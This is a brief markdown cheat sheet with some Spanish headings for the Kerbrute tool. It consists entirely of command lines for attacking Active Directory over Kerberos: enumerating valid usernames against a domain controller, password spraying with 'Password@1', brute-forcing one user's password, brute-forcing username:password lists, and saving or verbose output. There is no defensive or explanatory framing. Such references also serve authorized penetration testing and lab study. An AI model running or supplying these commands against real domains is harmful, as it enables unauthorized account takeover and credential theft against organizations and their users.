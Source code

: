 #### Ejecutable

```bash
./kerbrute_linux_amd64
```

#### Find valid users / User enumeration

```bash
./kerbrute_linux_amd64 userenum --dc <dc-ip> -d <domain> users.txt
```

#### Kerbrute Password Spray

```bash
./kerbrute_linux_amd64 passwordspray --dc <dc-ip> -d <domain> users.txt Password@1
```

#### Password Bruteforce

```bash
./kerbrute_linux_amd64 bruteuser --dc <dc-ip> -d <domain> pass.txt <user>
```
#### Bruteforce username: password combos

```bash
cat userpass.txt | ./kerbrute_linux_amd64 --dc <dc-ip> -d <domain> bruteforce -
```
> Donde userpass contiene combinacion **<user>:<password>**

#### Saving Output

```bash
 ./kerbrute_linux_amd64 userenum --dc <dc-ip> -d <domain> users.txt -o result.txt
```
#### Verbose mode

```bash
./kerbrute_linux_amd64 userenum --dc <dc-ip> -d <domain> users.txt -v
```

